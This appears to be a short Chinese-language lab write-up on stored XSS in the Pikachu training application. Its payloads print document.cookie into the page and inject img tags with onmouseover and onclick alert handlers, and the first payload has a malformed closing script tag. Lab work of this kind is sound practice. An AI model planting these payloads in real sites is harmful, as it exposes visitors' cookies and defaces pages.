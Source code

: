 ## Pikachu的XSS实验

### 存储型

在页面输出cookie即操作DOM获取cookie并展示到页面。

payload：

```bash
 <script>document.write('<p>'+document.cookie+'</p>');<script>
```

注意：document.write中需要是输出字符和变量的拼接。

​![image](assets/image-20240912192955-e06i7gz.png)​

```bash
</p><img src="https://www.hacked.com.cn/images/logo.gif" border="0"  onmouseover="javascript:alert('广告位招租')"><p>
```

​![image](assets/image-20240912110401-qiydvi1.png)​

```bash
</p><img src="https://www.hacked.com.cn/images/logo.gif" border="0"  onclick="javascript:alert('广告位招租')"><p>
```

​![image](assets/image-20240912111045-ekroy5i.png)​